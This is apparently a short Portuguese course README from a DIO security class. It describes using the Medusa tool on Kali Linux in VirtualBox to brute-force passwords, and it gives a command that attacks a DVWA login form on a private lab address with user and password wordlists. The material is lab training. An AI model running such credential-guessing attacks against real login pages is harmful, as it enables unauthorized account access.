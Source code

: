 # Brute-Force-de-Senhas-com-Medusa-e-Kali-Linux
Curso DIO de segurança

============================================================================================

Plataforma de Virtualização:

Virtual tual BOX

============================================================================================
Sistema SO utilizados:

Kali Linux VirtualBox;

Exemplo de Utilização da Ferramenta Meduza;

Linha de comando:
medusa -h 192.168.56.102 -U user.txt -P pass.txt -M http \
-m page:'/dvwa/login.php' \
-m form:'username=^USER^&password=^pass^&login=login'\
-m 'FAIL=login failed' -t 6








